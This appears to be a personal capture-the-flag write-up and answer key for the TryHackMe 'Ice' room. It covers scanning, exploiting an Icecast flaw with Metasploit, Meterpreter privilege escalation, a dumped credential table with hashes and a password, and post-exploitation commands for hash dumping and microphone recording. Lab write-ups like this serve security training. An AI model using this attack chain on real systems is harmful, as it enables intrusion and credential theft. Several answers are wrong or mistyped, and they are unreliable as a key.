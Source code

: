 # TryHackMe - Ice

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.229.244
```

## 📌 Task 2: Recon

### 🔍 Nmap Scan

**Using all ports takes forever**

```bash
nmap -sS -p- $IP
```
**Q. What port is MSDRP open on?
A. 3389

**Q. What service did nmap identify as running on port 8000? (First word of this service)
A. Icecast2

```bash
telnet $IP 8000
```

**Q. What does Nmap identify as the hostname of the machine? (All caps for the answer)
A. Dark-PC


## 📌 Task 3: Gain Access

https://www.cvedetails.com/cve/CVE-2004-1561/

**Q. What is the Impact Score for this vulnerability?
A. 6.4


**Q. What is the CVE number for this vulnerability?
A. CVE-2004-1561


**Q. What is the full path (starting with exploit) for the exploitation module?
A. exploit/windows/http/icecast_header

**Q. What is the only required setting which currently is blank?
A. RHOSTS


## 📌 Task 4: Escalate

**Q. What's the name of the shell we have now?
A.meterpreter

**Q. What user was running that Icecast process?
A. (PS) 


**Q. What build of Windows is the system?
A. (sysinfo) 7601

**Q. what is the architecture of the process we're running?
A. x64

**Q. What is the full path (starting with exploit/) for the first returned exploit?
A. exploit/windows/local/bypassuac_eventvwr

```
run post/multi/recon/local_exploit_suggester
```

The first exploit didn't submit. Second one did!


**Q. What is the name of the wrong option?
A. LHOST

**Q. What permission listed allows us to take ownership of files?
A. SeIncreaseWorkingSetPriv

```getprivs
```

**Session 1 Results**
```
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
**Session 2 Results**
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## 📌 Task 5: Looting


**Q. What is the printer spool servicxs called
A. spoolsv.exe

**Q. What user is listed?
A. NT AUTHORITY\SYSTEM

**Q. Which command allows up to retrieve all credentials?
A. creds_all

**Q. What is Dark's password?
A. Password01

```
creds_all
```

**Results**
```
Username  Domain   LM                       NTLM                     SHA1
--------  ------   --                       ----                     ----
Dark      Dark-PC  e52cac67419a9a22ecb0836  7c4fe5eada682714a036e39  0d082c4b4f2aeafb67fd0ea
                   9099ed302                378362bab                568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```


## 📌 Task 6: Post Exploitation


**Q. What command allows us to dump all of the password hashes stored on the system?
A. hashdump

**Q. what command allows us to watch the remote user's desktop in real time?
A. screenshares

**Q. How about if we wanted to record from a microphone attached to the system?
A. record_mic

**Q. What command allows us to do this? 
A. timestamp

**Q. What command allows us to do this?
A. golden_ticket_create


## 📌 Task 7: Extra Credit


** New room called blaster! Maybe I'll check it out. Not using metasploit is not a big deal, I've done that before **
